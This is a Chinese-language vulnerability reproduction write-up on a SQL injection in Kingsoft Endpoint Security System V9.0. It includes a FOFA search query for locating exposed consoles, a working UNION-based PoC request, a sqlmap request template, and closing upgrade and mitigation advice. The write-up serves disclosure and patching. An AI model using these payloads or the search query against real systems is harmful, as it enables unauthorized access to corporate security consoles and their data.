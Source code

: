 
# 金山终端安全系统V9.0 SQL注入漏洞复现

### 0x01 产品简介

     金山终端安全系统是一款为企业提供终端防护的安全产品，针对恶意软件、病毒和外部攻击提供防范措施，帮助维护企业数据和网络。

### 0x02 漏洞概述

    金山终端安全系统V9.0 /inter/update\_software\_info\_v2.php页面存在[sql注入漏洞](https://so.csdn.net/so/search?q=sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，该漏洞是由于金山终端安全系统未对用户的输入进行有效的过滤，直接将其拼接进了SQL查询语句中，导致系统出现SQL注入漏洞。

### 0x03 影响范围

 金山终端安全系统<V9.SP1.E1008

### 0x04 复现环境

FOFA：title=="用户登录-金山终端安全系统V9.0Web控制台"

![](assets/1698896208-cc29352e23e52fc988b800d3c8c23af2.png)

### 0x05 漏洞复现

PoC

```cobol
POST /inter/update_software_info_v2.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

type=-1+UNION+SELECT+1,user(),3,4,5,6,7,8--&key=&pageCount=0&curPage=
```

查询当前用户

![](assets/1698896208-5f10298fbb7a1d2c77a3afed656eb5e6.png)

延时注入

![](assets/1698896208-b463c7f3194636c602d4b9a813479e2a.png)

Sqlmap验证 

数据包放txt里面

```cobol
POST /inter/update_software_info_v2.php HTTP/1.1
Host: your-ip
Content-Type: application/x-www-form-urlencoded

type=-100*&key=&pageCount=0&curPage=
```

![](assets/1698896208-3fd0e5ee810c1cd75b4acfbb95f1dce7.png)

### 0x06 修复建议 

**升级修复方案**

官方已经推出了新版本修复了漏洞。建议所有受影响的用户尽快访问官方网站，更新版本至新版本。https://www.ejinshan.net/lywz/index

**临时缓解方案**

通过网络ACL策略限制访问来源，例如只允许来自特定IP地址或地址段的访问请求。另外作为安全建议，不要将集权设备的Web管理控制台开放在互联网上，并且仅允许可信IP进行访问。
